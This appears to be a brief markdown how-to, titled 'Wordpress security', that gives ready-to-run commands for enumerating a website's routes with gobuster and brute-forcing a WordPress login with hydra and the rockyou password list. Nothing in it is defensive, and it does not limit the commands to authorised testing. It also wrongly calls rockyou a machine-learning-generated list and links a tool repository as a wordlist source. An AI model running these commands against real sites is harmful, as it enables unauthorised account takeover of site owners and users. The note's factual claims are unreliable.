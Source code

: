# Wordpress security

## Brute-force on website routes

1. Install a tool to brute-force a domain name (every routes)
```sh
brew install gobuster
```

2. Download a word directory list dictionnarie:
https://github.com/OJ/gobuster (for exemple)

3. Execute gobuster on a website
```sh
gobuster dir -w <dictionnarie> -u <url>
```

## Brute-force on a password form

1. Install a tool to brute-force a form
```sh
brew install hydra
```

2. Go on Kaggle to retrieve a dataset of passwords etablished with machine learning (rockyou) and download it:
https://www.kaggle.com/wjburns/common-password-list-rockyoutxt

3. Unleash Hydra on Worpress website
```sh
hydra -l <userName> -P <passwordFilePath> <basicUrlWithoutHttp> https-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
```
